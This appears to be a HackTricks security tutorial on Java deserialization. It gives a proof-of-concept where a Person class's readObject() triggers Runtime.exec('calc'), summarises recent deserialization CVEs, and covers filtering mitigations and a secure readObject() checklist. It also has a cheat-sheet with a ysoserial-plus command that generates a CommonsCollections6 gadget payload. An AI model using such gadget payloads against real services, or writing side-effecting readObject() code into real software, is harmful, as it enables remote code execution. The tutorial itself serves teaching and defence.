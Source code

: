 # Basic Java Deserialization with ObjectInputStream readObject

{{#include ../../banners/hacktricks-training.md}}

In this POST it's going to be explained an example using `java.io.Serializable` **and why overriding `readObject()` can be extremely dangerous if the incoming stream is attacker-controlled**.

## Serializable

The Java `Serializable` interface (`java.io.Serializable`) is a marker interface your classes must implement if they are to be **serialized** and **deserialized**. Java object serialization (writing) is done with the [`ObjectOutputStream`](http://tutorials.jenkov.com/java-io/objectoutputstream.html) and deserialization (reading) is done with the [`ObjectInputStream`](http://tutorials.jenkov.com/java-io/objectinputstream.html).

### Reminder: Which methods are implicitly invoked during deserialization?

1. `readObject()` – class-specific read logic (if implemented and *private*).
2. `readResolve()` – can replace the deserialized object with another one.
3. `validateObject()` – via `ObjectInputValidation` callbacks.
4. `readExternal()` – for classes implementing `Externalizable`.
5. Constructors are **not** executed – therefore gadget chains rely exclusively on the previous callbacks.

Any method in that chain that ends up invoking attacker-controlled data (command execution, JNDI lookups, reflection, etc.) turns the deserialization routine into an RCE gadget.

Lets see an example with a **class Person** which is **serializable**. This class **overwrites the readObject** function, so when **any object** of this **class** is **deserialized** this **function** is going to be **executed**.\
In the example, the **readObject** function of the class Person calls the function `eat()` of his pet and the function `eat()` of a Dog (for some reason) calls a **calc.exe**. **We are going to see how to serialize and deserialize a Person object to execute this calculator:**

**The following example is from <https://medium.com/@knownsec404team/java-deserialization-tool-gadgetinspector-first-glimpse-74e99e493649>**

```java
import java.io.Serializable;
import java.io.*;

public class TestDeserialization {
    interface Animal {
        public void eat();
    }
    //Class must implements Serializable to be serializable
    public static class Cat implements Animal,Serializable {
        @Override
        public void eat() {
            System.out.println("cat eat fish");
        }
    }
    //Class must implements Serializable to be serializable
    public static class Dog implements Animal,Serializable {
        @Override
        public void eat() {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (IOException e) {
                e.printStackTrace();
            }
            System.out.println("dog eat bone");
        }
    }
    //Class must implements Serializable to be serializable
    public static class Person implements Serializable {
        private Animal pet;
        public Person(Animal pet){
            this.pet = pet;
        }
        //readObject implementation, will call the readObject from ObjectInputStream  and then call pet.eat()
        private void readObject(java.io.ObjectInputStream stream)
                throws IOException, ClassNotFoundException {
            pet = (Animal) stream.readObject();
            pet.eat();
        }
    }
    public static void GeneratePayload(Object instance, String file)
            throws Exception {
        //Serialize the constructed payload and write it to the file
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //Read the written payload and deserialize it
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        Object obj = in.readObject();
        System.out.println(obj);
        in.close();
    }
    public static void main(String[] args) throws Exception {
        // Example to call Person with a Dog
        Animal animal = new Dog();
        Person person = new Person(animal);
        GeneratePayload(person,"test.ser");
        payloadTest("test.ser");
        // Example to call Person with a Cat
        //Animal animal = new Cat();
        //Person person = new Person(animal);
        //GeneratePayload(person,"test.ser");
        //payloadTest("test.ser");
    }
}
```

### Conclusion (classic scenario)

As you can see in this very basic example, the “vulnerability” here appears because the **readObject()** method is **calling other attacker-controlled code**. In real-world gadget chains, thousands of classes contained in external libraries (Commons-Collections, Spring, Groovy, Rome, SnakeYAML, etc.) can be abused – the attacker only needs *one* reachable gadget to get code execution.

---

## 2023-2025: What’s new in Java deserialization attacks?

* 2023 – CVE-2023-34040: Spring-Kafka deserialization of error-record headers when `checkDeserExWhen*` flags are enabled allowed arbitrary gadget construction from attacker-published topics. Fixed in 3.0.10 / 2.9.11. ¹
* 2023 – CVE-2023-36480: Aerospike Java client trusted-server assumption broken – malicious server replies contained serialized payloads that were deserialized by the client → RCE. ²
* 2023 – CVE-2023-25581: `pac4j-core` user profile attribute parsing accepted `{#sb64}`-prefixed Base64 blobs and deserialized them despite a `RestrictedObjectInputStream`. Upgrade ≥ 4.0.0.
* 2023 – CVE-2023-4528: JSCAPE MFT Manager Service (port 10880) accepted XML-encoded Java objects leading to RCE as root/SYSTEM.
* 2024 – Multiple new gadget chains were added to ysoserial-plus(mod) including Hibernate5, TomcatEmbed, and SnakeYAML 2.x classes that bypass some old filters.

## Modern mitigations you should deploy

1. **JEP 290 / Serialization Filtering (Java 9+)**  
   *Add an allow-list or deny-list of classes:*  
   ```bash
   # Accept only your DTOs and java.base, reject everything else
   -Djdk.serialFilter="com.example.dto.*;java.base/*;!*"
   ```
   Programmatic example:
   ```java
   var filter = ObjectInputFilter.Config.createFilter("com.example.dto.*;java.base/*;!*" );
   ObjectInputFilter.Config.setSerialFilter(filter);
   ```
2. **JEP 415 (Java 17+) Context-Specific Filter Factories** – use a `BinaryOperator<ObjectInputFilter>` to apply different filters per execution context (e.g., per RMI call, per message queue consumer).
3. **Do not expose raw `ObjectInputStream` over the wire** – prefer JSON/Binary encodings without code execution semantics (Jackson after disabling `DefaultTyping`, Protobuf, Avro, etc.).
4. **Defense-in-Depth limits** – Set maximum array length, depth, references:
   ```bash
   -Djdk.serialFilter="maxbytes=16384;maxdepth=5;maxrefs=1000"
   ```
5. **Continuous gadget scanning** – run tools such as `gadget-inspector` or `serialpwn-cli` in your CI to fail the build if a dangerous gadget becomes reachable.

## Updated tooling cheat-sheet (2024)

* `ysoserial-plus.jar` – community fork with > 130 gadget chains:
  ```bash
  java -jar ysoserial-plus.jar CommonsCollections6 'calc' | base64 -w0
  ```
* `marshalsec` – still the reference for JNDI gadget generation (LDAP/RMI).  
* `gadget-probe` – fast black-box gadget discovery against network services.
* `SerialSniffer` – JVMTI agent that prints every class read by `ObjectInputStream` (useful to craft filters).
* **Detection tip** – enable `-Djdk.serialDebug=true` (JDK 22+) to log filter decisions and rejected classes.

## Quick checklist for secure `readObject()` implementations

1. Make the method `private` and add the `@Serial` annotation (helps static analysis).
2. Never call user-supplied methods or perform I/O in the method – only read fields.
3. If validation is needed, perform it **after** deserialization, outside of `readObject()`.
4. Prefer implementing `Externalizable` and do explicit field reads instead of default serialization.
5. Register a hardened `ObjectInputFilter` even for internal services (compromise-resilient design).

## References

1. Spring Security Advisory – CVE-2023-34040 Java Deserialization in Spring-Kafka (Aug 2023)
2. GitHub Security Lab – GHSL-2023-044: Unsafe Deserialization in Aerospike Java Client (Jul 2023)

{{#include ../../banners/hacktricks-training.md}}
